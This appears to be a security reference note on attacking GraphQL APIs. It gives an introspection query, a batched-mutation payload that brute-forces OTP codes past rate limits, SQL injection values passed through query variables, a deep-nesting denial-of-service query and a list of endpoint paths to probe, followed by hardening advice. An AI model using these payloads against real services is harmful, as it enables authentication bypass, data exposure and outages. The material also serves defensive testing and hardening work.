

# Mechanism: GraphQL Attack Surface & Introspection Exploitation

## 1. Architectural Vulnerability Profile
*   **Vulnerability Class:** GraphQL Information Disclosure, Authorization Bypass, Application DoS, Injection
*   **STRIDE Category:** Information Disclosure, Elevation of Privilege, Denial of Service, Tampering
*   **Trust Boundary Crossed:** External Untrusted Client $\rightarrow$ GraphQL Gateway / Query Resolver Engine $\rightarrow$ Internal Domain Microservices / Database
*   **Target Architectures:** Apollo Server, Relay, GraphQL Yoga, Hasura, AWS AppSync, Ruby graphql-gem, Python Graphene/Ariadne.

---

## 2. Core Failure Mechanism



---

## 3. High-Impact Attack Vectors

### Vector A: Introspection & Field Suggestion Discovery
*   **Active Introspection Query:**
    ```graphql
    query IntrospectionQuery {
      __schema {
        types {
          name
          fields {
            name
            type { name kind }
          }
        }
      }
    }
    ```
*   **When Introspection is Disabled (Field Suggestions Abuse):**
    GraphQL resolvers often suggest corrections:
    `"Cannot query field 'pass' on type 'User'. Did you mean 'password' or 'passcode'?"`
    Use tools like `clairvoyance` or automated wordlist fuzzing to reconstruct the entire schema purely through error messages.

### Vector B: Array-Based Query Batching (Rate-Limit & 2FA Bypass)
*   **Vulnerability:** WAFs and API Gateways enforce rate limiting per HTTP request. GraphQL allows sending multiple queries or mutations as a JSON array in a **single HTTP request**:
    ```json
    [
      {"query": "mutation { verifyOTP(code: \"0001\") { success } }"},
      {"query": "mutation { verifyOTP(code: \"0002\") { success } }"},
      {"query": "mutation { verifyOTP(code: \"9999\") { success } }"}
    ]
    ```
*   **Impact:** Full 2FA bypass and credential brute-force bypassing WAF and Cloudflare rate limits.

### Vector C: Chained Backend Injection via GraphQL Variables
*   **SQLi in Resolvers:**
    ```graphql
    query GetAccount($id: String!) {
      account(id: $id) {
        balance
        owner
      }
    }
    ```
    *Variables:* `{"id": "1' OR '1'='1"}` or `{"id": "1; WAITFOR DELAY '0:0:5'--"}`.
*   **SSRF in Webhook/Import Resolvers:**
    GraphQL mutations taking URLs (`avatarUrl`, `importUrl`) passed directly to internal HTTP clients.

### Vector D: Circular / Deep Nested Query Denial of Service
*   **Vulnerability:** Missing `max_depth` or query cost analysis in the GraphQL engine.
    ```graphql
    query InfiniteRecursion {
      thread {
        comments {
          author {
            threads {
              comments {
                author {
                  name
                }
              }
            }
          }
        }
      }
    }
    ```
*   **Impact:** Immediate memory and thread exhaustion crashing node / python gateway processes.

---

## 4. Common GraphQL Path Discovery List
Test these standard paths across subdomains:
*   `/graphql`
*   `/api/graphql`
*   `/v1/graphql`
*   `/v2/graphql`
*   `/gql`
*   `/query`
*   `/api/query`
*   `/graphql/console` (Interactive Playground/GraphiQL)

---

## 5. Remediation & Hardening
1. **Disable Introspection in Production:** Ensure `introspection: false` in Apollo/GraphQL configuration.
2. **Disable Query Batching:** Reject JSON arrays if the application only expects single operations.
3. **Enforce Query Depth & Complexity Limits:** Implement `graphql-depth-limit` or query cost analysis to kill nested loops before database resolution.
4. **Disable Field Suggestions:** Strip `"Did you mean..."` suggestions in production errors.
